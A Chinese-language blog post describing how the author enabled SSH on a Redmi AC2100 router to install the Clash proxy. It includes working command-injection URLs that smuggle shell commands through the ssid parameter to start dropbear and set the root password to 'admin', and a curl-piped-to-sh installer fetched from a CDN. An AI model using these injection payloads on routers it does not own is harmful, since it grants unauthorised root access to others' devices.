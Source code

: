 ```yaml
---
title: 在红米ac2100路由器上开启clash
author: ch3n9w
typora-root-url: ../
date: 2022-12-12 20:17:03
categories: 技术
---
```


> 在争取自由这个宏大命题下, 上网自由可以算得上一件"小事", 然而越是小事, 越与我们的日常息息相关.

<!--more-->

事情的起因是装kubernetes遇到了网络问题且换镜像源无用, 想了想自己对在路由器上fq也感兴趣了很久, 索性查查看, 没想到还挺容易的.

## 开启ssh

ac2100这个型号的路由器存在命令注入漏洞, 可以通过该漏洞开启clash.

登陆到路由器面板,从url中复制stok,替换下面的stok

```bash
# 命令执行漏洞开启ssh
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# 命令执行漏洞修改ssh密码, 这里用的密码为admin
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

然后在自己的电脑上ssh连接,密码admin
```bash
ssh root@192.168.31.1
```

如果报错了,就在`.ssh/config`中添加
```
Host 192.168.31.1
    PubkeyAcceptedAlgorithms +ssh-rsa
    HostkeyAlgorithms +ssh-rsa
```

## 安装clash

ssh登陆到路由器后, 运行:

```bash
export url='https://cdn.jsdelivr.net/gh/juewuy/ShellClash@master' && sh -c "$(curl -kfsSl $url/install.sh)" && source /etc/profile &> /dev/null
```

面板安装不成功的话就换源装.其他就跟着脚本的提示走就可以了
